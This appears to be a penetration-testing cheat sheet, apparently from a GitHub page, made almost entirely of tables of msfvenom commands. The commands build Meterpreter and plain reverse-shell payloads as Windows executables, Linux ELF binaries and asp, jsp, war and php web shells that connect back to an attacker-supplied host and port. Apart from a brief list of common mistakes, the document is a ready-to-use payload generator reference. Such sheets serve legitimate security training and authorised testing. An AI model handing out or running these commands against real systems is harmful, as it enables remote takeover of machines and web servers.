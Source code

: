 ```yaml
---
legal-banner: true
---
```


### **COMMON MISTAKES TO AVOID**

1.  Mismatched payloads
2.  Trying to catch a staged shell without using the multi/handler
3.  Architecture mismatch
4.  32-bit payloads don’t contain the architecture in the naming convention, but 64 bit payloads do (as shown below).

### **METERPRETER BINARIES**

#### Staged Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Stageless Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=[PORT] -f exe > shell-x64.exe` |

#### Staged Payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Stageless Payloads for Linux 

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Meterpreter Web Payloads

| FORMAT | Command |
| --- | --- |
| asp | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f asp > shell.asp` |
| jsp | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > example.jsp` |
| war | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f war > example.war` |
| php | `msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > shell.php` |

### **NON-METERPRETER BINARIES**

#### Staged Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/shell/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Stageless Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Staged Payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Stageless Payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Non-Meterpreter Web Payloads

| Format | Command |
| --- | --- |
| asp | `msfvenom -p windows/shell/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f asp > shell.asp` |
| jsp | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > shell.jsp` |
| war | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f war > shell.war` |
| php | `msfvenom -p php/reverse_php LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > shell.php` |